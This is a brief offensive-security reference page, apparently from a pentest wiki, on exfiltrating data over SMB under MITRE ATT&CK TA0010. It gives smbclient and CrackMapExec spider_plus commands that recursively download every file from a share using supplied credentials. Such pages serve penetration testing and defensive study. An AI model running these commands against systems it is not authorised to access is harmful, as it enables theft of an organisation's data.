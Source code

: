 ```yaml
---
description: MITRE ATT&CK™ - Exfiltration - Tactic TA0010
---
```


# Over SMB  

## Theory  

SMB (Server Message Block) exfiltration refers to the unauthorized extraction or transfer of data from a compromised network or system using SMB protocols. Attackers can leverage SMB to transfer sensitive or valuable information from an organization's network to an external location. 

## Practice  

{% tabs %}
{% tab title="smbclient" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) can be used to recursively download a SMB share's content.
```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *
```
{% endtab %}

{% tab title="CrackMapExec" %}
Tools like [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) can be used to recursively download a SMB share's content.
```bash
crackmapexec smb $IP -u $USERNAME -p $PASSWORD -M spider_plus -o READ_ONLY=False
```
{% endtab %}

{% endtabs %}